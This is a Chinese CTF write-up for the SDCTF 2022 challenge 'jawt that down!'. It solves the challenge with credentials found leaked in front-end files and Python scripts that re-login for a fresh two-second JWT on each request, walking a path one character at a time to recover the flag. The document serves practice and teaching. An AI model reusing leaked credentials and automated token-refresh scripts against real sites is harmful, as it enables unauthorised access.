


# 基本信息

- 题目名称： [SDCTF 2022]jawt that down!
- 题目链接： https://www.nssctf.cn/problem/2352
- 考点清单： 脚本编写，session伪造，jwt
- 工具清单： python环境

## 一、看到什么

扫目录看到一些路由，about里面都是一些人的unsplash主页，此外还有一个login的接口

## 二、想到什么解题思路

猜想这道题会不会是社工题，或者用about里面那些人的信息来登录，或者获取那些人的cookie等来登录，或者是sql注入

## 三、尝试过程和结果记录

尝试sql注入似乎没用，然后开始翻看前端文件，发现有泄漏的信息



登录后发现有一个新的可以访问的路由`/N`，访问后发现

```response
Invalid Token: Access Denied
```

猜想应该是权限问题，查看cookie，jwt解密后得到



发现有效期只有两秒，所以可以写个脚本来看下里面有什么内容

```python
import requests

# 目标URL
URL = 'http://node5.anna.nssctf.cn:29723'

def get_token():
    """获取新的JWT token"""
    login_url = f"{URL}/login"
    login_headers = {
        "Cache-Control": "max-age=0", 
        "Accept-Language": "zh-CN,zh;q=0.9", 
        "Origin": URL, 
        "Content-Type": "application/x-www-form-urlencoded", 
        "Upgrade-Insecure-Requests": "1", 
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36", 
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", 
        "Referer": f"{URL}/login", 
        "Accept-Encoding": "gzip, deflate, br", 
        "Connection": "keep-alive"
    }
    login_data = {"username": "AzureDiamond", "password": "hunter2"}
    
    # 登录并获取JWT token，禁止自动重定向
    login_response = requests.post(login_url, headers=login_headers, data=login_data, allow_redirects=False)
    
    # 提取JWT token
    set_cookie_header = login_response.headers.get('Set-Cookie')
    if set_cookie_header:
        jwt_token = set_cookie_header.split('jwt=')[1].split(';')[0]
        print(f"获取到JWT token: {jwt_token[:20]}...")
        return jwt_token
    else:
        print("未能获取到JWT token")
        return None

# 设置请求头部
request_headers = {
    "Cache-Control": "max-age=0", 
    "Accept-Language": "zh-CN,zh;q=0.9", 
    "Upgrade-Insecure-Requests": "1", 
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36", 
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", 
    "Accept-Encoding": "gzip, deflate, br", 
    "Connection": "keep-alive"
}

route = '/N'

jwt_token = get_token()
cookies = {"jwt": jwt_token}
response = requests.get(f'{URL}{route}', headers=request_headers, cookies=cookies)
print(response.text)
```

然后发现响应是一个`s`，因为nssctf的flag都是nssctf形式的，写一个循环脚本来尝试是否能获取flag，写出最后脚本

```python
import requests

# 目标URL
URL = 'http://node5.anna.nssctf.cn:29723'

def get_fresh_jwt_token():
    """获取新的JWT token"""
    login_url = f"{URL}/login"
    login_headers = {
        "Cache-Control": "max-age=0", 
        "Accept-Language": "zh-CN,zh;q=0.9", 
        "Origin": URL, 
        "Content-Type": "application/x-www-form-urlencoded", 
        "Upgrade-Insecure-Requests": "1", 
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36", 
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", 
        "Referer": f"{URL}/login", 
        "Accept-Encoding": "gzip, deflate, br", 
        "Connection": "keep-alive"
    }
    login_data = {"username": "AzureDiamond", "password": "hunter2"}
    
    # 登录并获取JWT token，禁止自动重定向
    login_response = requests.post(login_url, headers=login_headers, data=login_data, allow_redirects=False)
    
    # 提取JWT token
    set_cookie_header = login_response.headers.get('Set-Cookie')
    if set_cookie_header:
        jwt_token = set_cookie_header.split('jwt=')[1].split(';')[0]
        print(f"获取到新的JWT token: {jwt_token[:20]}...")
        return jwt_token
    else:
        print("未能获取到JWT token")
        return None

# 设置请求头部
request_headers = {
    "Cache-Control": "max-age=0", 
    "Accept-Language": "zh-CN,zh;q=0.9", 
    "Upgrade-Insecure-Requests": "1", 
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36", 
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", 
    "Accept-Encoding": "gzip, deflate, br", 
    "Connection": "keep-alive"
}

# 开始获取flag
flag = '/N'
print("开始获取flag...")

while True:
    print(f"当前路径: {flag}")
    
    # 每次请求前都获取新的JWT token
    jwt_token = get_fresh_jwt_token()
    if not jwt_token:
        print("无法获取JWT token，退出")
        break
    
    cookies = {"jwt": jwt_token}
    
    # 请求当前路径
    response = requests.get(f'{URL}{flag}', headers=request_headers, cookies=cookies)
    
    if response.status_code != 200:
        print(f"请求失败，状态码: {response.status_code}")
        print(f"响应内容: {response.text}")
        break
    
    next_char = response.text.strip()
    print(f"获取到字符: {next_char}")
    
    # 添加下一个字符到路径
    flag += '/' + next_char
    
    # 检查是否获取完整flag
    if '}' in next_char:
        break

# 输出最终结果
final_flag = flag.replace('/', '')
print(f"\n完整flag: {final_flag}") 
```

## 四、总结与反思

如果发现自己已经做了很多尝试但仍然无果，大胆发挥自己想象力去尝试，有的ctf比赛（如ISCC）中脑洞还是很重要的